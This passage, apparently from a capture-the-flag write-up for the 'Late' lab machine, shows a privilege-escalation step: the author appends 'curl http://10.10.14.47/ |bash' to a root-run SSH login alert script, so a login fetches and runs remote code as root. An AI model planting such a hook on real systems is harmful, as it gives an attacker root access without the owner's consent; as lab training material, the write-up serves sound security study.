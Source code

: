 We can append the content to the file.

```
svc_acc@late:~$ echo " curl http://10.10.14.47/ |bash" >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


 curl http://10.10.14.47/ |bash

```

This file will trigger when we try to login through ssh.
![late-7.png](/assets/img/late/late-7.png)
